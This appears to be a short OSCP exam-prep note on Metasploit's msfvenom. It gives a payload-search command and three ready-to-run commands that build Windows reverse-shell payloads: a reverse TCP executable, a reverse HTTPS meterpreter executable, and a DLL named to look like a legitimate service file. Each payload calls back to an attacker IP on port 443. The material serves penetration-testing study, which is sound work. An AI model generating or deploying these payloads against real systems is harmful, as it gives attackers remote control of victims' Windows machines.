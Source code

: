 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/11-metasploit-framework/3-msf-venom/"}
---
```


---------
Search for payload:
```
msfvenom -l payloads --platform windows --arch x64
```

Non-staged 64-bit Windows Reverse TCP Payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe
```

Non-staged 64-bit Windows Reverse HTTPS Payload:
```
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.199 LPORT=443 -f exe -o met.exe
```

64-bit DLL Payload:
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.226 LPORT=443 -a x64 --platform Windows -f dll -o EnterpriseServiceOptional.dll
```

